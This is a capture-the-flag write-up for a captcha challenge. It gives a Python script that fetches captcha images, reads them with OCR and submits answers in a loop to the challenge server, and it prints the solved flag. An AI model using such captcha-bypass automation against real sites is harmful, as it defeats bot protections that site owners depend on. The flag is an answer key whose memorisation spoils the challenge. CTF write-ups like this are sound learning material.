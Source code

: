 # Captcha
**Category:** Very Hard
**Points:** 800
**Solves:** 8
**Description:**

>Now presenting: Revolutionary new bot deterrant - The Craptcha. Works a bit too well... Even humans dont have the skill or patience to get past. Automate the captcha reading and answering process to get the flag.
>
>Flag is in format: CC##-####-####-####
>
>You cant access the site [here](http://ctfp.ee:9999/)

# Write-up
by BubblyPen

This flashy website approves only the correct captchas. Doing it by hand will take forever. So I made this fancy python script to automate the process.

```python
#!/bin/python3

#Imports
import pytesseract
import requests
import cv2
import webbrowser

#Global variables
s = requests.session()
x = 0

for i in range(0, 10000):
    
    #Get img
    response = requests.get("http://ctfp.ee:9999/captcha.php")
    
    file = open("captcha.jpeg", "wb")
    
    file.write(response.content)
    
    file.close()


    #Captha -> text && check if correct
    img = cv2.imread("captcha.jpeg")
    
    txt = pytesseract.image_to_string(img)[:-2]
    
    print(txt + ' ' + str(x) + '/10000')

    
    #Send it    
    url = 'http://ctfp.ee:9999/'
    
    r = s.post(url, data={'hash': txt})
    
    if 'wrong' in r.text or i == 10000:
    
        print(r.text)
    
    x = x + 1
```

***Flag:*** CC20-xJkL-c72A-092h

